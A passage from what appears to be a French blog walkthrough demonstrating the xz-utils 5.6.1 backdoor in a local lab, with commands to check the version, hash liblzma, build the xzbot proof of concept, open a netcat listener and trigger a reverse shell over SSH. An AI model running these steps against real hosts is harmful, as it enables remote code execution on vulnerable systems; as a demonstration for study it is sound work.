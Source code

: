 Vérifiez que vous soyez bien vulnérable avec la commande :

```bash
xz -V                                

xz (XZ Utils) 5.6.1
liblzma 5.6.1
```

Localisez et modifiez la signature de la backdoor :

```bash
sudo find / -name "liblzma.so.5.6.1" 2> /dev/null

# /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
                                                                                                                   
shasum -a 256 /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1

# 605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4  /usr/lib/x86_64-linux-gnu/liblzma.so.5.6.1
```

{{< admonition tips "Plus d'infos !" >}}
Si vous souhaitez de l'aide sur cette étape : https://github.com/amlweems/xzbot
{{< /admonition >}}

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo2.png)

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo3.png)

Activez le service `SSH` :

```sh
sudo systemctl start ssh
```

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo4.png)

Construisez le binaire du PoC et ouvrez un listener `netcat`.

```sh
go build .

# Autre terminal
nc -lvp 4444
```

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo5.png)

Déclenchez la backdoor avec la commande `xzbot -addr 127.0.0.1 -cmd '<command>'`. L'exemple ci-dessous permet de déclencher l'exécution d'un reverse shell.

![alt text](/images/xz-utils-:-la-backdoor-faisant-trembler-le-monde-libre/demo6.png)

Enfin, certains articles parlent de la présence d'un KillSwitch via la variable d'environnement `yolAbejyiejuvnup=Evjtgvsh5okmkAvj`. Cela ne semble avoir aucun effet 🤔
